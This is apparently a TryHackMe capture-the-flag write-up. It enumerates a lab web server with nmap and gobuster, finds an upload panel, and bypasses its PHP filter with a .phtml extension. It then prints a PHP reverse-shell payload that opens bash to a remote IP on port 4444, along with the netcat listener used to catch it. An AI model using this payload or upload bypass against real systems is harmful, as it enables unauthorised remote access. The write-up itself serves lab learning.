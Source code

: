 ## Info
- Platform: TryHackMe  
- Difficulty: Easy

---

## Enumeration

### Nmap
<img width="1354" height="496" alt="Screenshot_2025-09-15_07-51-01" src="https://github.com/user-attachments/assets/4e5ebf3c-d71b-4094-823f-3a5300071568" />

- Open ports: 22 (SSH), 80 (HTTP).

---

### Gobuster
```bash
gobuster dir -u http://10.10.27.133 -w /usr/share/wordlists/dirb/common.txt -x php,txt,html
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.27.133
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta.txt             (Status: 403) [Size: 277]
/.hta.html            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.htaccess.txt        (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/.htpasswd.txt        (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.27.133/css/]
/index.php            (Status: 200) [Size: 616]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 309] [--> http://10.10.27.133/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.27.133/panel/]
/server-status        (Status: 403) [Size: 277]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.27.133/uploads/]
Progress: 18452 / 18452 (100.00%)
===============================================================
Finished
===============================================================
```

---

## Exploitation
### File Upload
<img width="1919" height="833" alt="Screenshot_2025-09-15_07-57-26" src="https://github.com/user-attachments/assets/b93eb415-3a3b-4e65-9102-f22b601ce505" />

- The `/panel` directory contained an upload form.


<img width="760" height="522" alt="image" src="https://github.com/user-attachments/assets/fc70fc64-494a-4686-8bc7-43eed3f917a9" />

- Direct .php files were blocked (PHP não é permitido!).
- Bypassed by uploading a reverse shell with .phtml extension.

### Reverse Shell
- Payload used `shell.phtml`:
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.21.4.114/4444 0>&1'");
?>
```

- Listener started:
```bash
nc -lvnp 4444
```
- Triggered via: http://10.10.27.133/uploads/shell.phtml
- Shell obtained as www-data:

<img width="1677" height="306" alt="image" src="https://github.com/user-attachments/assets/0374431f-5818-487e-81f5-e8c205e57dc1" />

---


